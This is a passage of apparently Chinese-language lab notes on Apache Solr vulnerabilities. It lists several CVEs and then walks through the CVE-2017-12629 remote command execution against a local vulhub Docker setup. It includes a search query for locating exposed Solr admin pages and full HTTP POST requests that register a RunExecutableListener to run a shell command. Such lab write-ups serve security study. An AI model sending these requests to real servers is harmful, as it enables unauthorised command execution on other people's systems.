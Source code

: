 - ApacheSolr-组件框架安全

```plain
Apache Solr是一个开源的搜索服务，使用Java语言开发，主要基于HTTP和Apache Lucene实现的。Solr是一个高性能，采用Java5开发，基于Lucene的全文搜索服务器。

漏洞：https://avd.aliyun.com/search?q=solr
远程命令执行RCE（CVE-2017-12629）
远程命令执行XXE（CVE-2017-12629）
任意文件读取AND命令执行（CVE-2019-17558）
远程命令执行漏洞(CVE-2019-0192)
远程命令执行漏洞(CVE-2019-0193)
未授权上传漏洞(CVE-2020-13957)
Apache Solr SSRF (CVE-2021-27905)
1、远程命令执行RCE（CVE-2017-12629）
影响版本：Apache solr<7.1.0版本
语法：app="APACHE-Solr" && title=="Solr Admin"

启动环境：
cd /vulhub-master/solr/CVE-2017-12629-RCE
sudo docker-compose up -d

参考：https://vulhub.org/#/environments/solr/CVE-2017-12629-RCE/

访问：http://192.168.233.128:8983/solr/#/
访问特定地址进行抓包：
http://192.168.233.128:8983/solr/demo/config
POST提交：{"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/success"]}}
执行的命令是：touch /tmp/success
数据包：
POST /solr/demo/config HTTP/1.1
Host: 192.168.233.128:8983
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 158

{"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/success"]}}
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135139168-1986995624.png)

```plain
但是失败了，然后按照官方的原封不动的发：
POST /solr/demo/config HTTP/1.1
Host: 192.168.233.128:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 158

{"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/success"]}}
```
